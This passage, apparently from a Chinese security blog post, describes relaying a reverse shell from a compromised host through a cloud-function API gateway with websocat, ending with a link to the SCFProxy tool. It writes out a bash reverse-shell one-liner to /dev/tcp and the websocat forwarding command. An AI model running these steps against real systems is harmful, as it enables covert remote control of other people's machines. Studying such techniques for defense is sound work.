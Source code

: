 该工具提供了一个将 TCP 端口转发到 websocket 的功能。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002220-68b1c618-a5e2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002220-68b1c618-a5e2-1.png)

因此利用思路为：

1.  上传 websocat（或远程下载）到受害主机
2.  执行 `websocat -E --text tcp-l:127.0.0.1:12345 ws://apigatway` 转发端口
3.  反弹 shell 到本地端口 `bash -i >& /dev/tcp/127.0.0.1/12345 0>&1`
4.  攻击者连接 ws://apigate , 通过云函数进行消息中转，开始愉快的执行命令

### 实现

通过 ws 连接时，API 网关会生成一个 ConnectionID 代表当前与之连接的一台机器，然而因为通过 ws 连接每次发消息都会调用一次云函数，我们只能知道发起连接的这台机器的 ConnectionID。为此我们还需要一台数据库，用来保存处于连接中的机器，方便进行消息中转。

最终结构如下：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002242-75d92de0-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002242-75d92de0-a5e2-1.jpeg)

### 效果

在受害主机上执行命令

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002255-7dce048a-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002255-7dce048a-a5e2-1.jpeg)

本地连接 API 网关，成功执行命令  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002312-87e975d0-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002312-87e975d0-a5e2-1.jpeg)

因为 API 网关的 ws 地址直接暴露会比较危险，因此在服务端增加了一个认证功能，未认证连接发送的信息仅会发送给经过认证的的连接。

工具
--

本文仅针对 3 种方式提供了一个简单的原理和思路讲解，并未深入代码细节和云函数的具体配置。但 3 种思路均已实现成工具，云函数的配置方法也包括在内，有需要的师傅可以康康 [SCFProxy](https://github.com/shimmeris/SCFProxy)。